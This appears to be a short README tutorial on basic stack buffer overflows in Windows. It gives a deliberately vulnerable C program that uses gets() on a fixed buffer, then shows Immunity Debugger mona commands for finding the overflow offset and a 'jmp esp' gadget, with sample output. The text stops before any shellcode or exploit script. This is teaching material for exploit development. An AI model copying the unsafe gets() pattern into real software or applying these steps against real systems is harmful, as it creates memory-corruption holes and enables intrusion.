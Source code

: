 # Basic bufferover

required software

- python 2.7.x
- Immunity debugger - https://www.immunityinc.com/products/debugger/
- MinGW (gcc) - https://sourceforge.net/projects/mingw-w64/files/Toolchains%20targetting%20Win32/Automated%20Builds/


# First steps

Write code

```
#include <stdio.h>

int main() {
char str[50];

printf("Enter your name");
gets(str);
printf("Hello %s\n", str);

return 0;
}
```

Compile

```
gcc -m32 overflow.c -o overflow.exe
```

# Debugger

load immunity and use the folder or file to open and then locate overflow.exe
at the bottom of the screen set a working directory
```
!mona config -set workingfolder c:\mona\%p
```

open pattern.txt and copy and paste the pattern into your exe
```
!mona pc 100
```

use this as a pattern offset to workout how many junk bites are required
```
!mona po 31634130
```

look for a esp jump command
```
!mona jmp -r esp -m kernel
```
Log data, item 24
 Address=76C9FB75
 Message=  0x76c9fb75 (b+0x0013fb75)  : jmp esp |  {PAGE_EXECUTE_READ} [KERNELBASE.dll] ASLR: True, Rebase: True, SafeSEH: True, OS: True, v10.0.17763.1 (C:\WINDOWS\System32\KERNELBASE.dll)
```


